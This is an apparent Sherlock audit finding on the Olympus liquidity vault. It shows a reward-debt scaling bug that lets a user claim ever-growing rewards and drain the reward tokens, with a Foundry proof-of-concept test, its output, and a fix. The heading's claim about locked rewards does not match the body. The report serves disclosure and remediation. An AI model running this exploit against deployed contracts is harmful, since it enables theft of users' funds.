 nobody2018

high

# Issue : User's rewards will be locked for a period of time

## Summary
Due to miscalculating UserRewardDebts[user_][rewardToken.token], users will get more rewards each time they call claimRewards than the last time. As time goes by, user can take away all rewardToken in contract.
## Vulnerability Detail
Let's look at how to calculate **UserRewardDebts[user_][rewardToken.token]**. [[code snippet](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L623-L634)]

```solidity
function _claimInternalRewards(uint256 id_) internal {
        address rewardToken = internalRewardTokens[id_].token;
        uint256 reward = internalRewardsForToken(id_, msg.sender);
        uint256 fee = (reward * FEE) / PRECISION;

        userRewardDebts[msg.sender][rewardToken] += reward;	//here
        accumulatedFees[rewardToken] += fee;

        if (reward > 0) ERC20(rewardToken).safeTransfer(msg.sender, reward - fee);

        emit RewardsClaimed(msg.sender, rewardToken, reward - fee);
    }
```

**reward** is the value divided by 1e18 from [[the following code](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L354-L372)]:

```solidity
function internalRewardsForToken(uint256 id_, address user_) public view returns (uint256) {
        InternalRewardToken memory rewardToken = internalRewardTokens[id_];
        uint256 lastRewardTime = rewardToken.lastRewardTime;
        uint256 accumulatedRewardsPerShare = rewardToken.accumulatedRewardsPerShare;

        if (block.timestamp > lastRewardTime && totalLP != 0) {
            uint256 timeDiff = block.timestamp - lastRewardTime;
            uint256 totalRewards = timeDiff * rewardToken.rewardsPerSecond;

            // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
            accumulatedRewardsPerShare += (totalRewards * 1e18) / totalLP;
        }

        // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
        uint256 totalAccumulatedRewards = (lpPositions[user_] * accumulatedRewardsPerShare) -
            userRewardDebts[user_][rewardToken.token];	

        return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;	// here divided by 1e18
    }
```
**totalAccumulatedRewards** will be larger than the last time as **userRewardDebts[user_][rewardToken.token]** is a value divided by 1e18.
## Impact
This exploitation does not require any skills, user can easily exploit this vulnerability for draining all rewardToken.
## Code Snippet
I wrote poc in bottom of **WstethLiquidityVaultFork.t.sol** file.

```solidity
function testMiscalculatingRewards() public {
        // Setup
        vm.prank(bob);
        liquidityVault.deposit(2*WSTETH_AMOUNT, 0);
        vm.prank(alice);
        liquidityVault.deposit(1e17, 0);    //0.1 eth
        
        vm.warp(block.timestamp + 1); // Increase time 1 seconds so there are rewards
        // Verify initial state
        assertEq(ldo.balanceOf(alice), 0);
        assertEq(reward2.balanceOf(alice), 0);
        assertEq(externalReward.balanceOf(alice), 0);

        for(uint256 i = 0; i < 5; i++) {
            vm.prank(alice);
            liquidityVault.claimRewards();
            emit log_named_uint("i=", i + 1);
            emit log_named_decimal_uint("     ldo bal=", ldo.balanceOf(alice), 18);
            emit log_named_decimal_uint("external bal=", externalReward.balanceOf(alice), 18);

            vm.warp(block.timestamp + 1);   // Increase time 1 seconds so there are rewards
        }
    }
    
/* output
[PASS] testMiscalculatingRewards() (gas: 1469380)
Logs:
  i=: 1
       ldo bal=: 0.047619047618240215	//	0.04  first time
  external bal=: 0.047619047618240215	
  i=: 2
       ldo bal=: 0.142857142854720648	//	+ 0.10 than first time
  external bal=: 0.142857142854720646
  i=: 3
       ldo bal=: 0.285714285709441300	//	+ 0.14 than second time
  external bal=: 0.285714285709441292
  i=: 4
       ldo bal=: 0.476190476182402170	//	+ 0.19 than third time
  external bal=: 0.476190476182402154
  i=: 5
       ldo bal=: 0.714285714273603255	//	+ 0.24 than fourth time
  external bal=: 0.714285714273603231

Test result: ok. 1 passed; 0 failed; finished in 36.91s
*/
```
## Tool used

Manual Review

## Recommendation
Calculating userRewardDebts[msg.sender][rewardToken.token] should be fixed inside [[_claimExternalRewards](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L641)]

Calculating userRewardDebts[msg.sender][rewardToken.token] should be fixed inside [[_claimInternalRewards](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L628)]

```solidity
function _claimInternalRewards(uint256 id_) internal {
        address rewardToken = internalRewardTokens[id_].token;
        uint256 reward = internalRewardsForToken(id_, msg.sender);
        uint256 fee = (reward * FEE) / PRECISION;

        userRewardDebts[msg.sender][rewardToken] += reward * 1e18;	//here
        accumulatedFees[rewardToken] += fee;

        if (reward > 0) ERC20(rewardToken).safeTransfer(msg.sender, reward - fee);

        emit RewardsClaimed(msg.sender, rewardToken, reward - fee);
    }

    function _claimExternalRewards(uint256 id_) internal {
        ExternalRewardToken storage rewardToken = externalRewardTokens[id_];
        uint256 reward = externalRewardsForToken(id_, msg.sender);
        uint256 fee = (reward * FEE) / PRECISION;

        userRewardDebts[msg.sender][rewardToken.token] += reward * 1e18;	//here
        accumulatedFees[rewardToken.token] += fee;

        if (reward > 0) ERC20(rewardToken.token).safeTransfer(msg.sender, reward - fee);
        rewardToken.lastBalance = ERC20(rewardToken.token).balanceOf(address(this));

        emit RewardsClaimed(msg.sender, rewardToken.token, reward - fee);
    }
```
